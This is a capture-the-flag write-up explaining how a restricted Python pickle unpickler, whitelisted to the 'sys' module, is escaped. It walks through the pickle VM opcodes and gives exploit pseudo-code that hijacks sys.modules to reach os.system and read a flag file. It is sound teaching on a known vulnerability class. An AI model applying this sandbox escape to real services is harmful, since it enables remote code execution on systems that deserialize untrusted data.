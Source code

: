 ```yaml
---
name: pyshv1
category: misc
points: 572
solves: 13
---
```


{% ignore %}
[Go to rendered GitBook version](https://sasdf.github.io/ctf/)
{% endignore %}


> Continuous delivery is awesome.  
> We deploy our code to production whenever we can.  
> No code, no vulnerability.  
> Everything works great.  


# Overview, Concept and Design Criteria
Intially, I wanted to create some reverse challenge using pickle.
(Yep, one of that strange language series)

However, when I playing with pickle VM,
I realized that it's RIDICULOUSLY POWERFUL.

It shouldn't be limited to some noob `__reduce__` RCE.

Make pickle-pwn great again.


# Solution
## Behavior
In this task, we can send a pickle file to the server.
```python
def login(self):
    user = input().encode('ascii')
    user = codecs.decode(user, 'base64')
    user = pickle.loads(user)
```

The packages that can be imported is limited to `sys` only.
Also, deep import features starting from python3 is blocked.
```python
# See https://docs.python.org/3.7/library/pickle.html#restricting-globals
class RestrictedUnpickler(pickle.Unpickler):

    def find_class(self, module, name):
        if module not in whitelist or '.' in name:
            raise KeyError('The pickle is spoilt :(')
        return pickle.Unpickler.find_class(self, module, name)

# ...

pickle.whitelist.append('sys')
```

## Pickle
Pickle is a stack-based VM that is aiming for construct structure.
It has many data manipulation operations.
The only disadvantage is that there's no read operations because you should already know what you constructed.

You can find the pure python implementation of pickle from 
[github](https://github.com/python/cpython/blob/3.6/Lib/pickle.py) 
or `/usr/lib/python3.6/pickle.py`.

Let's see some operations will need in this task.
```
# Import root level attribute
GLOBAL         = b'c'   # push self.find_class(modname, name); 2 string args

# Call function
REDUCE         = b'R'   # apply callable to argtuple, both on stack

# Set attribute for class
BUILD          = b'b'   # call __setstate__ or __dict__.update()

# Set item in dict
SETITEM        = b's'   # add key+value pair to dict
```

`GLOBAL` (with our own filter) can only import attribute in root level, that is, importing `a.b` is OK, but importing `a.b.c` is disallowed.

## sys module
`sys` has many interesting things inside. One of them is `sys.modules`, which is a cache of imported modules.

Pickle also use `sys.modules`: 
```
def find_class(self, module, name):
    # Subclasses may override this.
    if self.proto < 3 and self.fix_imports:
        # ...
        pass

    __import__(module, level=0)

    # ...

    return getattr(sys.modules[module], name)
```

If we change `sys.modules['sys']` to other things, we can get some attribute of it!!

My exploit looks like:
```python
sys.modules['sys'] = sys.modules

import sys.get as sys.modules.get

os = sys.modules.get('os')

sys.modules['sys'] = os

import sys.system as os.system

os.system('cat ../flag.txt')
```

You can find the final pickle bytecode [here]([_files/solution/solve.py]).

